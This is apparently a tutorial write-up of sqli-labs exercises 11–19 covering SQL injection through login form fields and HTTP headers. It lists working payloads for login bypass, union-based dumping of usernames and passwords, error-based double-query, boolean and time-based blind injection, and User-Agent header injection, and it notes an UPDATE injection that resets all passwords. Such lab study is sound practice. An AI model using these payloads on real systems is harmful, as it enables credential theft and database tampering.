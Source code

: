 # Sqli and POST methods 

This section will cover some of the ways in which the ```POST``` method can be used to exploit the database. 

:warning: Most of the methods mentioned here will be the repitition of what was discussed in the previous sections. 

## Messing around with a simple login page : sqli-labs lesson-11 and lesson-12

In lesson 11, a simple login page is presented which is vulnerable to sql injection. 

Here instead of fuzzing the web app with the url, we fuzz the web-app with the input fields provided in the login form. 

On trying defaults, we are able to login using ```admin``` as username and password. 

Also, the application breaks when the user inputs ```'``` as the input in either of the input fields.

:warning: ```#``` works better as a comment for input fields. 

After we break the query, we have to follow the steps which are covered in the previous sections. 

We can bypass the login page by using the following as the input value - 

```sql
' or 1 #
```

On passing the above text, we are able to bypass the login page. We are able to do so because the value of the above text evaluates to true.

Similarly, when we pass the below mentioned text as the input for one of the fields, we get all the usernames and passwords. 

```sql 
' union select group_concat(username), group_concat(password) from users limit 0,1 #
```

:warning: Before using the ```union select``` statement, the ```order-by``` clause was used to get the number of columns used in the login page.

Lesson 12 is also quite similar to lesson-11. On passing ```\``` into the input field we get to know that the developer has used ```("")``` in the query. 


We can bypass the query and get the output by entering the below text into the input field - 

```sql
") or 1 #
```

and then we can dump all critical information by doing something similar to what we did in lesson-11. 

```sql
") union select group_concat(username), group_concat(password) from users limit 0, 1 #
```

## More fun with the login page : lesson-13 and lesson-14

This exercise doesn't show user output like in the previous exercises. However, this webpage does show mysql errors and this makes it perfect for using error-based double query injection where will be dump the user data in the form of a mysql errors. 

We first try to break the query by passing ```\``` into the input field. We get an error from which we can infer the way input is being passed to the backend. 

The query in lesson-13 can be fixed by passing ```') #``` as the input. 

The following set of queries can be used to get the username and password. 

```sql
') or ((select 1 from (select count(*), concat((select table_name from information_schema.tables where table_schema=database() limit 0,1), '::', floor(rand()*2)) as hack from information_schema.tables group by hack) as payload)) #

') or ((select 1 from (select count(*), concat((select column_name from information_schema.columns where table_name='users' limit 0,1), '::', floor(rand()*2)) as hack from information_schema.tables group by hack) as payload)) #

') or ((select 1 from (select count(*), concat((select password from users limit 3,1), '::', floor(rand()*2)) as hack from information_schema.tables group by hack) as payload)) #
```

Lesson-14 is exactly the same as lesson-13 with the only difference being how the input is being passed to the backend. 

## Resetting password : lesson-17

Here, we will be dealing with the ```Update``` query. The update query is executed when the submit button is pressed. 

:warning: Fuzzig a sql query that uses the ```update``` can cause the values in the database to change unexpectedly. An example for this is shown below. 

In lesson-17, fuzzing the username field yields nothing, therefore the we will have to use the password field to get the information that we want. In order to do this, pass ```admin``` as the password and pass ```' or 1 #``` in the password field. 

Passing ```' or 1 #``` to the password field changes all the password to ```1```. This is because the query at the backend changes to something like this - 


```sql 
UPDATE users SET password = '' or 1 # ' WHERE username='admin';
```

Since, the username field gets commented out, the password for all the users is set to ```1```.

We can get the username and password in this exercise by using double-query injection which is exactly the same as shown in the previous section. 

## Going Blind : lesson-15 and lesson-16

The login page in these challenges don't respond with any error messages. However, on successful login we do see a change in state of the web app. This can be exploited. We can make use of boolean based injections.

The following queries can be used to get interesting results about the database - 

```sql
' or (select ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0, 1), 1, 1)) = 101) #

' or if((ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0, 1), 1, 1)) = 101), sleep(15), null) #
```

:warning: Depending on which query is being used, the webpage will either wait for a certain period of time or it may result in some change in the webpage. 

## Hello Burp : lesson-18

We make use of ```Burp``` to solve this challenge. Please refer [here](#) to know more about ```Burp```. 

On fuzzing the login page we realize that we cannot break the query and fix it again. Hence, this rules out the possibility of using boolean-based and time-based injections.

Also, the login page produces an output when ```admin``` is passed as the username and password. The output is in a from of a message that shows the user-agent of the current user. 

On intercepting the request and passing it to the repeater, we can further experiment with the request. 

We notice that when we change the user-agent from the headers tab, the response also changes. Therefore, we can conclude that the user-agent headers is vulnerable. 

When ```\``` is passed as the user-agent, we see a ```MySql``` error. Now, we can use ```Double Injections``` to exploit the app. 

On passing the below payload as the user-agent, we get to see the database name.


```sql
' or ((select 1 from (select count(*), concat((select database()), '::', floor(rand()*2), '::') as hack from information_schema.tables group by hack) as payload)) or '1
```

The above payload can be modified accordingly to get more useful information from the web app. The query shown below can be used to get the names of all the tables in the database by changing the ```offset``` of the ```limit``` clause.

```sql
' or ((select 1 from (select count(*), concat((select table_name from information_schema.tables where table_schema=database() limit 0, 1), '::', floor(rand()*2), '::') as hack from information_schema.tables group by hack) as payload)) or '1
```

Similarly, the query shown below can be used to get all the column names of a given table.

```sql
' or ((select 1 from (select count(*), concat((select column_name from information_schema.columns where table_name='users' limit 1, 1), '::', floor(rand()*2), '::') as hack from information_schema.tables group by hack) as payload)) or '1
```

And finally we can get the passwords by sending the below mentioned query as the user-agent - 

```sql 
' or ((select 1 from (select count(*), concat((select password from users limit 0, 1), '::', floor(rand()*2), '::') as hack from information_schema.tables group by hack) as payload)) or '1
```

:warning: Lesson 19 is exactly the same as lesson 18 with the only difference being that in lesson-19 the ```refers``` header needs to be exploited. 